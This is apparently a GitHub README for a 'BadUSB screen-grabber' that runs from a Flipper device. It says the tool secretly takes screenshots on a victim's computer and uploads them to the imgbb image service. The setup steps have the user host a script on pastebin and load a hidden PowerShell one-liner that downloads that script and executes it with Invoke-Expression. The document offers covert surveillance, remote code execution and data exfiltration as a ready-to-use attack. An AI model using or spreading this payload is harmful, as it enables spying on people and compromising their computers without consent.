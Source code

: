 # BadUSB screen-grabber
## Automatically creates screenshots on victims computer and sends them to imgbb api


* Upload ssgrab.ps1 to pastebin
* Modify `powershell -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadString('PASTEBIN LINK') | Invoke-Expression` in payload.txt so that it has your pastebin link as raw and upload to Flipper
